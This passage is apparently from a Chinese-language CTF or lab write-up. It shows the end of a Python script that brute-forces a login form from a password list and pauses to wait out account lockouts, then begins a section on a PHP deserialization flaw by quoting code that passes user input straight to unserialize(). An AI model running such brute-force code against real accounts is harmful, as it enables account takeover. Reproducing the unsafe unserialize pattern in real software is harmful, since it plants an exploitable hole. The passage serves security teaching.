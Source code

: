 ```python

                    data = {
                        "username": USERNAME,
                        "password": pwd,
                        "csrf_token": token
                    }

                    res = session.post(CHECK_URL, data=data, headers=headers)
                    print(f"[*] 正在尝试密码: {pwd}")

                    if "密码错误" not in res.text and "用户名错误" not in res.text and "登录尝试次数过多" not in res.text:
                        print("\n" + "="*40)
                        print(f"[+] !!! 攻击成功 !!!")
                        print(f"[+] 用户名: {USERNAME}")
                        print(f"[+] 密码: {pwd}")
                        print(f"[+] 响应内容: {res.text}")
                        print("="*40)
                        return

                    if "用户名错误" in res.text:
                        print("[!] 用户名错误，停止爆破。")
                        return
                        
                    if "登录尝试次数过多" in res.text:
                        print("[!] 账户被锁定，稍等5分钟...")
                        sleep(300)

                except requests.RequestException as e:
                    print(f"[!] 请求异常: {e}")
                    sleep(5)

    except FileNotFoundError:
        print(f"[!] 密码字典未找到: {PASSWORD_LIST_PATH}")
    except Exception as e:
        print(f"[!] 未知错误: {e}")

if __name__ == "__main__":
    main()
```

### 2. PHP 反序列化漏洞利用

![image-20250728210931335](http://7r1UMPHK.github.io/image/20250728210932754.webp)

成功登录后，发现 `ok.php` 页面存在 PHP 反序列化漏洞，其代码如下：

```php
if (isset($_GET['data'])) {
    $data = $_GET['data'];
    unserialize($data);
}
```
